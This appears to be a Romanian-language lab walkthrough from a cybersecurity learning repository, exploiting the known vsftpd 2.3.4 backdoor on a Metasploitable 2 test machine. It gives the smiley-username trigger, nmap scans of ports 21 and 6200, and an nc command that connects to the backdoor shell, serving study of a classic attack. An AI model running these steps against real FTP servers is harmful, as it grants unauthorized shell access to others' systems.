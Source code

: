 
### Atac FTP:

   - [Despre FTP](https://github.com/Dani780-C/Cyber-security/blob/main/learn/_ftp.md)
   - versiune: *vsftpd 2.3.4*
   [In 2011, in arhiva de pe site-ul oficial al serviciului FTP a fost atasat un virus backdoor care executa un shell pe portul 6200. Pentru a executa virusul, username-ul folosit la conectarea serviciului FTP putea fi oricare sir de caractere urmat de un ":)"]

   - Pasii atacului:
      
         nmap -sSV 192.168.56.102 -p21,6200
     ##### Explicatii comanda:
        ```
        nmap <-> tool pentru a scana servicii
        -sSV <-> Stealth scan version
        192.168.56.102 <-> adresa IP a tintei (Metaplsoitable 2)
        -p21,6200 <-> scanam doar porturile 21 si 6200
        ```
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-nmap-1.png)

     Se poate observa ca portul 6200 inca nu este deschis.
     
         ftp 192.168.56.102 21
     
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-2.png)
     
         nmap 192.168.56.102 -p6200
         
     ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-nmap-2.png)
     
     Se poate vedea dupa o inca scanare a portului 6200 ca acum este deschis.
     
         nc -v 192.168.56.102 6200
         
      ##### Explicatii comanda:
        ```
        nc <-> netcat
        -v <-> verbose
        192.168.56.102 <-> adresa IP a tintei
        6200 <-> portul pe care ne conectam
        ```     
      ![My Image](https://github.com/Dani780-C/Cyber-security/blob/main/attacks/imgs/ftp-done.png)
     
   - Analiza trafic:
      - [Captura traficului pentru serviciului FTP in timpul atacului](https://github.com/Dani780-C/Cyber-security/blob/main/captures/ftp-traffic.pcapng)
